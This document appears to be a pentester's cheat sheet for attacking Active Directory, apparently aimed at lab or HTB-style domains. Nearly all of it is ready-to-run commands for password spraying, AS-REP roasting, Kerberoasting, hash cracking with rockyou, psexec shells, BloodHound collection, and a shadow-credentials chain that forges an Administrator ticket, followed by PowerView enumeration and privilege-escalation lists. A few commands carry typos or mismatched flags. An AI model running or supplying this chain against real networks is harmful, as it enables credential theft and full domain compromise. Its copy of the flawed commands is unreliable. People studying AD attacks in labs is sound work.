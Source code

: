 ### Active Directory

### From Linux

#### AD Strategy
1. Start with nmap, to idenftiy the network.
2. Assume Breach strategy
3.    1. Get user, groups, computers

#### How to identify alive hosts in netowrk ?
1. Run nmap ping sweep, Command: `nmap -r -sn 192.168.110.0/24`
2. Run nmap ping sweep, Command: `nmap -r -sP 192.168.110.0/24` 

#### How to identify Domain Controller (DC) ?
1. Most probably a DC would be having open PORTS e.g 53 and **88 (KDC)**, 389, 636 which are not avbl to other Windows machines.
2. If you're in DC network, Command: `nmap -r -v --open -sC -sV -p53,88,389,636 <DC IP>`
3. If above command shows these ports **OPEN** ... You got **DC** !!!

#### How to extract the underlying Windows OS via crackmapexec?
1. Command: `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.52-55`

#### How to Generate username combinations ?
1. Use https://github.com/urbanadventurer/username-anarchy

#### How to know that username/password combination is valid - crakmapexec ?
1. If running follwing crackmapexec command against **DC** gives you **+** symbol, the **creds** are valid.
2. Command:  `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.55`

#### How to know that username/password combination is valid - kerbrute (password spray) ?
1. Command: `./kerbrute_linux_amd64 passwordspray --dc 192.168.110.55 -d somedomain.htb AD_users.txt 'password'`
2. Command: `./kerbrute_linux_amd64 -d internal.abc.local passwordspray allUsers.txt 'Password100!' --dc 192.168.210.16'`
   
##### Using impacket - To find all the usernames, email address etc?
1. Without username/password command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -dc-ip 192.168.110.55`
2. With user/password of a valid domain user command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -all -dc-ip 192.168.110.55`

##### Using impacket - Authentication Service Response (AS-REP) Roasting?
1. Highly unlikely today, as by default, in **Active Directory**, it is more likely the feature that **enables** this attack is **disabled**.
2. When DC Admin creates a user in DC, he has to explictly check option **Do not require Kerberos Pre-Authentication**.
3. Commamd: `proxychains GetNPUsers.py somedomain.htb/ -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
4. Command: `proxychains GetNPUsers.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
5. If above command shows, *User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set*, this means, it doesn't work for this user. 
6. Crack the hashes, by running command: `hashcat -a 0 -m 18200 asrep-roast-hash.txt rockyou.txt`

##### Using impacket - Kerberoasting?
1. To get hashes, run command: `proxychains GetUserSPNs.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -request`
2. Cracking hashes: `hashcat -m 13100 kerberoasting.txt /usr/share/wordlists/rockyou.txt`

##### What to do if you have got valid user/password credentials --- after as-rep/kerb roasting ?
1. Lets assume Kerberoasting got successful, what to do next ?
2. Run cracmapexec, and if shows **Pwn3d!**, this means you can access that particular system.
3. Command: `proxychains crackmapexec smb 192.168.110.52-55 -u http_svc -p 'somepassword'`

##### Listing all the shares - crackmapexec ?
1. Command: `proxychains crackmapexec smb 192.168.110.52 -u http_svc -p 'somepassword' --shares`

##### Accessing that system e.g. we got creds after kerberoasting ?
1. Via psexec, command: `proxychains impacket-psexec somedomain.htb/http_svc:'somepassword'@192.168.110.52`
2. The above command would you give you shell. 

#### After shell, use SYSINTERNALS AD Explorer  / Bloodhound
1. Remote Blooudhound from Kali, command: `proxychains bloodhound-python --zip -c all -d somedomain.local -u marcus -p 'Password100!' --dns-tcp -ns <DC IP address>`

#### Useful commands - Assume Breach Appraoch - You're inside the DC network with valid user/pass combination
1. **Local vs Domain** - This command tells all the users present in the current system. Command: `net user` or `net user <username>`
3. **Local vs Domain** - This command tells all the users present in all the DC. Command: `net user /domain` or `net user <username>  /domain `

#### AD Abuse - AddKeyCredentialLink [pywhisker.py -> gettgtpkinit.py - > getnthash.py -> impacket-lookupsid -> impacket-ticketer -> finally psexec / secretsdump)
1. `proxychains python3 pywhisker.py -d "somedomain.local" -u 'username' -p 'Password100'  --target "COMP-ABC-1$" --action "list"`
2. `proxychains python3 pywhisker.py -d "somedomain.local" -u 'username' -p 'Password100'  --target "COMP-ABC-1$" --action "add" --filename hacker`
3. `proxychains python3 gettgtpkinit.py -cert-pfx "hacker.pfx" -pfx-pass "VSDR4fkJazANDrGfis03" "somedomain.local/COMP-ABC-1\$" out.cache`
4. `proxychains python3 getnthash.py somedomain.local/COMP-ABC-1\$ -key bc39f3e57c5550412fbedd1430c3919f1f25f0a67117517242422029241d1c85`
5. `proxychains impacket-lookupsid somedomain.local/username@192.168.210.10(DC) | grep "Domain SID"`
6. `proxychains impacket-ticketer -nthash 89d0b56874f61ad38bad336a77b8ef2f -domain somedomain.local -domain-sid S-1-5-21-2734290894-461713716-141835440 Administrator -dc-ip 192.168.210.10(DC)`
7. `export KRB5CCNAME=Administrator.ccache`
8. `klist`
9. `impacket-psexec somedomain.local/Administrator@192.168.210.10 -target-ip 192.168.210.11(ADComputer) -dc-ip 192.168.210.10(DC) -no-pass -k`


### From Windows

#### PrivEsc in Windows
1. Vulnerablities in installed software our outdated OS or missing patches.
2. AutoLogON Passwords in Cleartext.
3. AlwaysInstallElevated.
4. Misconfigured Services. (Unquoted path etc.) 
5. DLL Hijacking.
6. NTLM relaying.
7. Local services running (chisel).
8. Tools: PowerUP + PrivESC + WinPEAS

#### Enumeration after importing Powerview
1. `Get-NetDomain` #Net domain details
2. `Get-NetForset` #Net forest details
3.  Run DomainPasswordSpray powershell script to list all the user accounts txt
5. `Get-DomainComputer | select samaccountname,operatingsystem` #find OS details
6. `Get-NetDomainController`
7. `Get-NetUser`
8. `Get-NetGroupMember -Identity "Enterprise Admins" -Domain  moneycorp.local` #Find enterprise admin, which is accessible on root only
9. `Get-DomainComputer -TrustedToAuth` #Looking for constrained delegation abuse (Look for attribute msDS-AllowedToDelegateTo)
10. `Get-DomainUser -TrustedToAuth` #Looking for constrained delegation abuse (msDS-AllowedToDelegateTo)
11. `Get-DomainUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto` #Looking for constrained delegation abuse
12. `Get-DomainComputer -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto` #Looking for constrained delegation abuse
   
#### PrivESC after importing Powerup
1. `Invoke-Allchecks`


#### AD Pentesting Tools
1. Obviously neo4j and bloodhound or powerhound
2. plumhound
3. adminer

